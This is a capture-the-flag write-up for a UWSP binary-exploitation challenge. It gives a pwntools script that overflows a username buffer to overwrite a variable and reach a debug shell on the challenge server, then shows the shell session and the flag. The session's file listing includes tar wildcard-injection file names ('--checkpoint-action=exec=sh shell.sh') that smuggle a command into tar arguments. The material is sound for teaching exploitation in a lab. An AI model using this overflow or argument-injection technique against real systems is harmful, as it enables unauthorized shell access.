 # Exploit

## My Friend, A Loathsome Worm

This one should be quite straight forward. Can you trick this program into popping a shell without even bothering to overwrite the return address? Why pick the lock when you can simply remove the hinges. :)

[Download exploit1.bin](https://uwspedu-my.sharepoint.com/:u:/g/personal/cjohnson_uwsp_edu/EcCKo6YaJUNHmpy4braSQFIBIgFLCuqde42LFfX66sRc0g?e=4a9hM2)

The binary is running at 34.123.210.162 port 20232

---

### Solution

```python
# file: pay.py
from pwn import *

# p = process("exploit1.bin")
p = remote('34.123.210.162', 20232)

payload = b'A' * 28
payload += p64(1337)

p.recvuntil(b'Choice: ')
p.sendline(b'1')
p.recvuntil(b'Enter new username: ')
p.sendline(payload)
p.recvuntil(b'Choice: ')
p.sendline(b'3')
p.interactive()
```


```bash
$ python pay.py
[+] Opening connection to 34.123.210.162 on port 20232: Done
[*] Switching to interactive mode
Starting debug shell
$ ls
--checkpoint-action=exec=sh shell.sh
--checkpoint=1
50808
archive.tar
exploit.sh
exploit1.bin
exploit_v2.sh
exploit_v3.sh
flag.txt
shell.sh
$ cat flag.txt
poctf{uwsp_5w337_c10v32_4nd_50f7_511k}
```
### poctf{uwsp_5w337_c10v32_4nd_50f7_511k}